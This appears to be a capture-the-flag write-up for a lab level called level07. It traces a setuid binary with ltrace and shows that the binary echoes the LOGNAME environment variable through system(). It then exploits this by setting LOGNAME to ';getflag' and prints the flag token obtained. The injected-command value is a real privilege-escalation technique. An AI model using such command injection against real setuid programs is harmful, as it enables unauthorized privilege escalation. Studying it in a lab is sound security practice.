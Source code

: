 # Level 07

As `level07`, running `ls` gives us a binary called `level07` inside our home folder. Using `ltrace` on it gives us the following...

```shell
  $> ltrace ./level07 
  __libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
  getegid()                                                            = 2007      
  geteuid()                                                            = 2007      
  setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
  setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                  = 0
  getenv("LOGNAME")                                                    = "level07" 
  asprintf(0xbffff744, 0x8048688, 0xbfffff47, 0xb7e5ee55, 0xb7fed280)  = 18        
  system("/bin/echo level07 "level07
  <unfinished ...>
  --- SIGCHLD (Child exited) ---
  <... system resumed> )                                               = 0
  +++ exited (status 0) +++
```

> This binary checks for UID and GID of the user running it, then retrieves an environment variable: `LOGNAME` before outputing it via a `system` call.

So in order to exploit this binary, we simply have to modify what's inside `LOGNAME`. If we checks for more details with `ls -l`:

```shell
  $> ls -l
  total 12
  -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Once again, the binary is owned by `flag07` which has the right to use `getflag`. Escaping `echo` and calling `getflag` would give us the flag.

```shell
  $> export LOGNAME=";getflag" && ./level07 

  Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

So, `fiumuikeil55xe9cu4dood66h` is the flag for this level.
